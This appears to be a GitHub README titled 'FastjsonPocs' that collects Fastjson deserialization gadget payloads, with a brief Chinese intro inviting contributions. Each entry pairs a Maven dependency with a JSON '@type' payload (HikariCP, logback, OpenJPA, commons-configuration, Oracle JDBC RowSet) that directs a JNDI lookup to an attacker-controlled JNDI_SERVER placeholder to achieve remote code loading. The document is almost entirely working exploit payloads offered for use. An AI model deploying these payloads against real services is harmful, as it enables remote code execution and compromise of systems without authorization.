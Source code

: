 # FastjsonPocs

一些结合第三方组件的Fastjson POC，在1.2.48以后版本中陆续被添加至黑名单，欢迎补充。

### com.zaxxer.hikari.HikariConfig:

```
  <dependency>
      <groupId>com.zaxxer</groupId>
      <artifactId>HikariCP</artifactId>
      <version>3.3.1</version>
  </dependency>

```

>   {"@type":"com.zaxxer.hikari.HikariConfig","metricRegistry":"JNDI_SERVER"}

### ch.qos.logback.core.db.JNDIConnectionSource:

```
  <dependency>
      <groupId>ch.qos.logback</groupId>
      <artifactId>logback-core</artifactId>
      <version>1.2.2</version>
  </dependency>

```

>   {"@type":"ch.qos.logback.core.db.JNDIConnectionSource","jndiLocation":"JNDI_SERVER"}

### org.apache.openjpa.ee.

```
  <dependency>
      <groupId>org.apache.openjpa</groupId>
      <artifactId>openjpa</artifactId>
      <version>3.0.0</version>
  </dependency>

```

>   {"@type":"org.apache.openjpa.ee.JNDIManagedRuntime","transactionManagerName":"JNDI_SERVER","rollbackOnly":null}
>   {"@type":"org.apache.openjpa.ee.RegistryManagedRuntime","registryName":"JNDI_SERVER","rollbackOnly":null}

### org.apache.commons.configuration.JNDIConfiguration

```
  <dependency>
      <groupId>commons-configuration</groupId>
      <artifactId>commons-configuration</artifactId>
      <version>1.10</version>
  </dependency>

```

>   {"@type":"org.apache.commons.configuration.JNDIConfiguration","prefix":"JNDI_SERVER"}

### org.apache.commons.configuration2.JNDIConfiguration

```
  <dependency>
      <groupId>org.apache.commons</groupId>
      <artifactId>commons-configuration2</artifactId>
      <version>2.2</version>
  </dependency>

```

>   {"@type":"org.apache.commons.configuration2.JNDIConfiguration","prefix":"JNDI_SERVER"}

### oracle.jdbc.rowset.OracleJDBCRowSet

```
  <dependency>
      <groupId>com.oracle.ojdbc</groupId>
      <artifactId>ojdbc8</artifactId>
      <version>19.3.0.0</version>
  </dependency>

```

>   {"@type":"oracle.jdbc.rowset.OracleJDBCRowSet","dataSourceName":"JNDI_SERVER","command":"test"}
